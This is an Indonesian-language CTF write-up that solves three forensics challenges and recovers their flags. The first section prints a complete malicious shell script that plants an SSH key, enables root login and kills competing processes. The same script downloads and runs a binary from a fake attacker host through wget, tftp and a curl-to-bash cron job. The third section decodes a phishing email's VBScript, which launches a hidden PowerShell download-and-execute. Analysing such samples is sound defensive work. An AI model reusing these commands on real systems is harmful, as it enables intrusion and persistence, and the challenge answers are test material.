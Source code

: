 
---
# It Has Begun

### Deskripsi
Keributan sudah dekat, dan tantangan pertama telah dirilis! Apakah kalian siap menjadi faksi!? Mengingat ini hanyalah permulaan, jika Anda tidak dapat mengerahkan kerja tim yang dibutuhkan sedini ini, kemungkinan besar kehancuran Anda tidak dapat dihindari.

### Analisis
pada tangtangan ini diberikan 1 buah bash script dan 

```bash
#!/bin/sh

if [ "$HOSTNAME" != "KORP-STATION-013" ]; then
    exit
fi

if [ "$EUID" -ne 0 ]; then
    exit
fi

docker kill $(docker ps -q)
docker rm $(docker ps -a -q)

echo "ssh-rsa AAAAB4NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D7s4J0L7XV2kep0rNzgY1S1IdE8HDAf7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B user@tS_u0y_ll1w{BTH" >> /root/.ssh/authorized_keys
echo "nameserver 8.8.8.8" >> /etc/resolv.conf
echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
echo "128.90.59.19 legions.korp.htb" >> /etc/hosts

for filename in /proc/*; do
    ex=$(ls -latrh $filename 2> /dev/null|grep exe)
    if echo $ex |grep -q "/var/lib/postgresql/data/postgres\|atlas.x86\|dotsh\|/tmp/systemd-private-\|bin/sysinit\|.bin/xorg\|nine.x86\|data/pg_mem\|/var/lib/postgresql/data/.*/memory\|/var/tmp/.bin/systemd\|balder\|sys/systemd\|rtw88_pcied\|.bin/x\|httpd_watchdog\|/var/Sofia\|3caec218-ce42-42da-8f58-970b22d131e9\|/tmp/watchdog\|cpu_hu\|/tmp/Manager\|/tmp/manh\|/tmp/agettyd\|/var/tmp/java\|/var/lib/postgresql/data/pоstmaster\|/memfd\|/var/lib/postgresql/data/pgdata/pоstmaster\|/tmp/.metabase/metabasew"; then
        result=$(echo "$filename" | sed "s/\/proc\///")
        kill -9 $result
        echo found $filename $result
    fi
done

ARCH=$(uname -m)
array=("x86" "x86_64" "mips" "aarch64" "arm")

if [[ $(echo ${array[@]} | grep -o "$ARCH" | wc -w) -eq 0 ]]; then
  exit
fi


cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777 0xda4.0xda4.$ARCH; ./0xda4.0xda4.$ARCH; 
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; tftp legions.korp.htb -c get 0xda4.0xda4.$ARCH; cat 0xda4.0xda4.$ARCH > DVRHelper; chmod +x *; ./DVRHelper $ARCH; 
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; busybox wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777;./0xda4.0xda4.$ARCH;
echo "*/5 * * * * root curl -s http://legions.korp.htb/0xda4.0xda4.$ARCH | bash -c 'NG5kX3kwdVJfR3IwdU5kISF9' " >> /etc/crontab

```

flag di potong menjadi 2 bagian

bagian pertama ada apa pada `user@tS_u0y_ll1w{BTH` yang katanya di putar ke belakang
dan bagian terakhir ada pada bagian `bash -c 'NG5kX3kwdVJfR3IwdU5kISF9'` yang di enkripsi menggunakan base64

### Penyelesaian


```bash
$ echo -n "tS_u0y_ll1w{BTH" | rev && echo -n "NG5kX3kwdVJfR3IwdU5kISF9" | base64 -d

HTB{w1ll_y0u_St4nd_y0uR_Gr0uNd!!}  
```





---
# An Unusual Sighting

### Deskripsi 
Saat persiapan hampir berakhir, dan The Fray semakin dekat setiap harinya, tim kami yang baru dibentuk telah mulai mengerjakan pemfaktoran ulang aplikasi CMS baru untuk kompetisi. Namun, setelah beberapa waktu kami menyadari bahwa banyak pekerjaan kami yang hilang secara misterius! Kami berhasil mengekstrak Log SSH dan Riwayat Bash dari server dev kami yang dimaksud. Faksi yang berhasil mengungkap pelaku akan mendapat bonus besar dalam kompetisi!

### Analisis

Pada tantangan ini disuruh untuk menjawab beberapa pertanyaan dalam docker instace. sebelumnya diberikan 2 buah file `sshd.log`, `bash_history.txt` yang akan menjadi sumber jawaban nya.


### Penyelesaian

```bash
What is the IP Address and Port of the SSH Server (IP:PORT)

> 100.107.36.130:2221

What time is the first successful Login
> 2024-02-13 11:29:50

What is the time of the unusual Login

> 2024-02-19 04:00:14

What is the Fingerprint of the attackers public key

> OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4

What is the first command the attacker executed after logging in
> whoami

What is the final command the attacker executed before logging out

> ./setup


HTB{B3sT_0f_luck_1n_th3_Fr4y!!}
```






---
# Urgent

### Deskripsi 
Di tengah "Fray" Cybercity, serangan phishing menargetkan faksi-faksinya, sehingga memicu kekacauan. Saat mereka memecahkan kode email tersebut, para detektif dunia maya berlomba untuk melacak sumbernya, dengan tenggat waktu yang ketat. Misi mereka: membuka kedok penyerang dan memulihkan ketertiban kota. Di jalanan yang diterangi lampu neon, pertarungan demi keadilan dunia maya terjadi dan menentukan nasib faksi-faksi tersebut.

### Analisis
Pada tantangan ini diberikan sebuah file .eml. pada file tersebut terdapat percakapan yang di enckripsi dengan base 64 

- Bagian pertama hanya hanya di encrypt menggunakan base64 dan tidak ada hal menarik

```html
<div style="font-family: Arial, sans-serif; font-size: 14px;"><span style="font-family: Monaco, Menlo, Consolas, &quot;Courier New&quot;, monospace; font-size: 12px; font-variant-ligatures: none; text-align: left; white-space: pre-wrap; display: inline !important; color: rgb(209, 210, 211); background-color: rgba(232, 232, 232, 0.04);">Dear Fellow Faction Leader,

I hope this message reaches you in good stead amidst the chaos of The Fray. I write to you with an offer of alliance and resistance against the oppressive regime of KORP™.

It has come to my attention that KORP™, under the guise of facilitating The Fray, seeks to maintain its stranglehold over our society. They manipulate and exploit factions for their own gain, while suppressing dissent and innovation.

But we refuse to be pawns in their game any longer. We are assembling a coalition of like-minded factions, united in our desire to challenge KORP™'s dominance and usher in a new era of freedom and equality.

Your faction has been specifically chosen for its potential to contribute to our cause. Together, we possess the skills, resources, and determination to defy KORP™'s tyranny and emerge victorious.

Join us in solidarity against our common oppressor. Together, we can dismantle the structures of power that seek to control us and pave the way for a brighter future.

Reply to this message if you share our vision and are willing to take a stand against KORP™. Together, we will be unstoppable. Please find our online form attached.

In solidarity,

Anonymous member
Leader of the Resistance</span><br></div>
```


- Bagian kedua di encrypt menggunakan base64 dan ada beberapa bagian javascript code yang menggunakan url encode

```html
<html>
<head>
<title></title>
<body>
<script language="JavaScript" type="text/javascript">
document.write(unescape('%3c%68%74%6d%6c%3e%0d%0a%3c%68%65%61%64%3e%0d%0a%3c%74%69%74%6c%65%3e%20%3e%5f%20%3c%2f%74%69%74%6c%65%3e%0d%0a%3c%63%65%6e%74%65%72%3e%3c%68%31%3e%34%30%34%20%4e%6f%74%20%46%6f%75%6e%64%3c%2f%68%31%3e%3c%2f%63%65%6e%74%65%72%3e%0d%0a%3c%73%63%72%69%70%74%20%6c%61%6e%67%75%61%67%65%3d%22%56%42%53%63%72%69%70%74%22%3e%0d%0a%53%75%62%20%77%69%6e%64%6f%77%5f%6f%6e%6c%6f%61%64%0d%0a%09%63%6f%6e%73%74%20%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%20%3d%20%33%0d%0a%09%43%6f%6e%73%74%20%48%49%44%44%45%4e%5f%57%49%4e%44%4f%57%20%3d%20%31%32%0d%0a%09%53%65%74%20%4c%6f%63%61%74%6f%72%20%3d%20%43%72%65%61%74%65%4f%62%6a%65%63%74%28%22%57%62%65%6d%53%63%72%69%70%74%69%6e%67%2e%53%57%62%65%6d%4c%6f%63%61%74%6f%72%22%29%0d%0a%09%53%65%74%20%53%65%72%76%69%63%65%20%3d%20%4c%6f%63%61%74%6f%72%2e%43%6f%6e%6e%65%63%74%53%65%72%76%65%72%28%29%0d%0a%09%53%65%72%76%69%63%65%2e%53%65%63%75%72%69%74%79%5f%2e%49%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%4c%65%76%65%6c%3d%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%0d%0a%09%53%65%74%20%6f%62%6a%53%74%61%72%74%75%70%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%53%74%61%72%74%75%70%22%29%0d%0a%09%53%65%74%20%6f%62%6a%43%6f%6e%66%69%67%20%3d%20%6f%62%6a%53%74%61%72%74%75%70%2e%53%70%61%77%6e%49%6e%73%74%61%6e%63%65%5f%0d%0a%09%53%65%74%20%50%72%6f%63%65%73%73%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%22%29%0d%0a%09%45%72%72%6f%72%20%3d%20%50%72%6f%63%65%73%73%2e%43%72%65%61%74%65%28%22%63%6d%64%2e%65%78%65%20%2f%63%20%70%6f%77%65%72%73%68%65%6c%6c%2e%65%78%65%20%2d%77%69%6e%64%6f%77%73%74%79%6c%65%20%68%69%64%64%65%6e%20%28%4e%65%77%2d%4f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%57%65%62%43%6c%69%65%6e%74%29%2e%44%6f%77%6e%6c%6f%61%64%46%69%6c%65%28%27%68%74%74%70%73%3a%2f%2f%73%74%61%6e%64%75%6e%69%74%65%64%2e%68%74%62%2f%6f%6e%6c%69%6e%65%2f%66%6f%72%6d%73%2f%66%6f%72%6d%31%2e%65%78%65%27%2c%27%25%61%70%70%64%61%74%61%25%5c%66%6f%72%6d%31%2e%65%78%65%27%29%3b%53%74%61%72%74%2d%50%72%6f%63%65%73%73%20%27%25%61%70%70%64%61%74%61%25%5c%66%6f%72%6d%31%2e%65%78%65%27%3b%24%66%6c%61%67%3d%27%48%54%42%7b%34%6e%30%74%68%33%72%5f%64%34%79%5f%34%6e%30%74%68%33%72%5f%70%68%31%73%68%69%31%6e%67%5f%34%74%74%33%6d%70%54%7d%22%2c%20%6e%75%6c%6c%2c%20%6f%62%6a%43%6f%6e%66%69%67%2c%20%69%6e%74%50%72%6f%63%65%73%73%49%44%29%0d%0a%09%77%69%6e%64%6f%77%2e%63%6c%6f%73%65%28%29%0d%0a%65%6e%64%20%73%75%62%0d%0a%3c%2f%73%63%72%69%70%74%3e%0d%0a%3c%2f%68%65%61%64%3e%0d%0a%3c%2f%68%74%6d%6c%3e%0d%0a'));
</script>
</body>
</html>

```

### Penyelesaian

pada bagian kedua terlihat amat mencurigakan, javascript dikirimkan melalui email yang seharusnya ini adalah phissing. setelah mendecode bagian url-encode isi pesan tersebut terlihat seperti ini

```html
<html>
<head>
<title></title>
<body>
<script language="JavaScript" type="text/javascript">
document.write(unescape('<html>
<head>
<title> >_ </title>
<center><h1>404 Not Found</h1></center>
<script language="VBScript">
Sub window_onload
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WbemScripting.SWbemLocator")
	Set Service = Locator.ConnectServer()
	Service.Security_.ImpersonationLevel=impersonation
	Set objStartup = Service.Get("Win32_ProcessStartup")
	Set objConfig = objStartup.SpawnInstance_
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('https://standunited.htb/online/forms/form1.exe','%appdata%\form1.exe');Start-Process '%appdata%\form1.exe';$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}", null, objConfig, intProcessID)
	window.close()
end sub
</script>
</head>
</html>
'));
</script>
</body>
</html>
```